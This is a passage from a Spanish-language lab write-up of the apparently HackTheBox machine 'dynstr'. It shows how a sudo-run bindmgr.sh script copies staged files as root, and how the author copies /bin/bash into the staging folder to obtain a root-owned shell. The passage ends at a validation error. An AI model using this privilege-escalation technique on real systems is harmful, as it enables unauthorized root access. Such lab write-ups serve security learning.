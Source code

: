 Pasamos los primeros `if`, pero al final obtenemos un error y algo llamativo:

* <span style="color: yellow;">No encuentra el directorio `holanda` en la ruta `/etc/bind/named.bindmgr`, pero claro, tiene sentido:</span>
  
  Vemos el output del comando `cp`, que al no ser especificado el parámetro `-r` (recursive) no fue copiado el directorio `holanda`.

Si validamos el directorio `/etc/bind/named.bindmgr` vemos algo aún más interesante en lo que no había caído en cuenta en mis pruebas anteriores:

```bash
bindmgr@dynstr:/tmp/tess$ ls -la /etc/bind/named.bindmgr
total 16
drwxr-sr-x 2 root bind 4096 Jul 18 21:30 .
drwxr-sr-x 3 root bind 4096 Jul 18 21:30 ..
-rw-r--r-- 1 root bind   18 Jul 18 21:30 hola.txt
-rw-r--r-- 1 root bind    2 Jul 18 21:30 .version
```

Los archivos son copiados como el usuario **root** (claramente, no había caído en cuenta), pues esto me dio una nueva idea:

¿Y si nos copiamos el binario `/bin/bash` a nuestra ruta, ejecutamos el script y vemos si por medio del binario copiado (al ser **root** el owner) conseguimos una **Shell** como **root**?

<details><summary style="color: gray;">Supongo que alguno ya sabe lo que va a pasar, si no lo sabes no abras esto :P</summary></details>

Pues intentemos, copiémonos el binario:

```bash
bindmgr@dynstr:/tmp/tess$ cp /bin/bash .
```

```bash
bindmgr@dynstr:/tmp/tess$ ls -la
total 1172
drwxrwxr-x  2 bindmgr bindmgr    4096 Jul 18 21:41 .
drwxrwxrwt 13 root    root       4096 Jul 18 21:39 ..
-rwxr-xr-x  1 bindmgr bindmgr 1183448 Jul 18 21:41 bash
-rw-rw-r--  1 bindmgr bindmgr      18 Jul 18 21:22 hola.txt
-rw-rw-r--  1 bindmgr bindmgr       2 Jul 18 21:21 .version
```

Vemos que nosotros somos **owners** de todos los archivos, ejecutemos el script:

```bash
bindmgr@dynstr:/tmp/tess$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tess.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
    /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
    /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
    /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
```
